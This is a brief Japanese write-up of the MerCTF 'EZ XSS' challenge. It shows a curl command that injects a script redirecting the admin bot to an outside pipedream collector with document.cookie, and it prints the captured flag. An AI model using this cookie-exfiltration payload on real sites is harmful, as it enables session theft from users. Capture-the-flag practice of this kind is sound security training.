


# EZ XSS:MerCTF:430pts
Let's jump to a client-side challenge for XSS lovers. Just steal the admin (bot) cookie :ganbare:  
**URL:** [http://ezxss.merctf.com/test](http://ezxss.merctf.com/test)  

# Solution
URLにアクセスすると、よくわからないが`/submit?solution=payload`でXSSしろということらしい。  
  
以下のようにcookieを取得するXSSを打ち込んでやる(RequestBin.comなどで受信する)。  
```bash
$ curl 'http://ezxss.merctf.com/submit?solution=<script>location.href="https://en43puqb75xk6.x.pipedream.net/?s="%2Bdocument.cookie</script>'
If it is correct, you should receive your flag, right?
```
以下のようなリクエストが届く。  
  
cookieにflagが入っていた。  

## Merctf{GoOd_XsS_GoOd_T1mE_JoIn_MeRcAri}